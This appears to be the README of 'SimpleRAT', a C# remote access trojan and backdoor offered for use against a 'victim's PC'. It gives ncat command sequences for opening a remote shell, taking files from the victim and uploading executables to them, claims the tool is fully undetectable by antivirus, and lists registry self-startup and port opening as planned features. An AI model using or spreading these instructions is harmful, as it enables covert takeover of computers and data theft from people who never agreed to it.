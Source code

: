 # SimpleRAT

Self-contained RAT/Backdoor written fully in C#.
After installation and launch, listens on port specified in JSON configuration. After successfull connection gives remote shell.
Developed for Windows, Fully compatible with Netcat (tested with windows version).

# What RAT can
1. After connection on specified port (provided in JSON file, which can be changed as you wishand should be merged into exe after that by using provided tool), gives reverse shell.
2. Is able to download any files from victim's PC on specified port (provided in JSON file) and upload files on victim PC, no need for server setup or anything, only netcat on your side and launched RAT on victim's side :)
### How to download files:
1. Put netcat on listening state (ncat -v -l -p "port for file download from JSON" > "file name with extension that you want to download")

Example: ncat -v -l -p 8889 > helloworld2.exe

NOTE: I advice you to use "-v" for more verbose output

2. Connect to victim PC through netcat (ncat <ip addrress> <port from JSON configuration on which RAT will be listening>)

Example: ncat 192.168.88.220 8888

3. Check if reverse shell is working (cd, dir)

5. Currently RAT has it's own command interpreter which will listen to commands from your PC, these type of commands begin with "RAT".

For file download command is - "RAT download file -p <windows/path/to/file/withextension>"
  
Process:
![RAT-guide](https://user-images.githubusercontent.com/53906830/109512165-1aee9280-7aa4-11eb-891f-89ff993b7dd4.png)

### How to upload files:
1. Connect to victim PC through netcat (ncat <ip addrress> <port from JSON configuration on which RAT will be listening>)

Example: ncat 192.168.88.220 8888

2. Check if reverse shell is working (cd, dir)

3. Put RAT in listenning state by executing:
RAT upload file -p <path/to/file.exe>

Example: RAT upload file -p C:\Users\someuser\checkme\ConsoleApp4.exe

4. Send file through netcat on main port of your RAT

Example: ncat 192.168.88.230 8888 --send-only < ConsoleApp4.exe

Process:
![rat-upload](https://user-images.githubusercontent.com/53906830/110226904-37029180-7ef3-11eb-897b-8c7db2e9a581.png)

Currently RAT is FUD as it is small and simple, without any specific features.

## Downsides
1. High .exe application size (35 MB)
2. High memory usage
![rat-memory](https://user-images.githubusercontent.com/53906830/110226932-73ce8880-7ef3-11eb-9f0e-b455832e95b4.png)

Both problems are because RAT is self-contained application with builded-in .NET runtime.

TODO/Plans: 

1. Create key in registry for self startup;
2. Open ports required for communication;
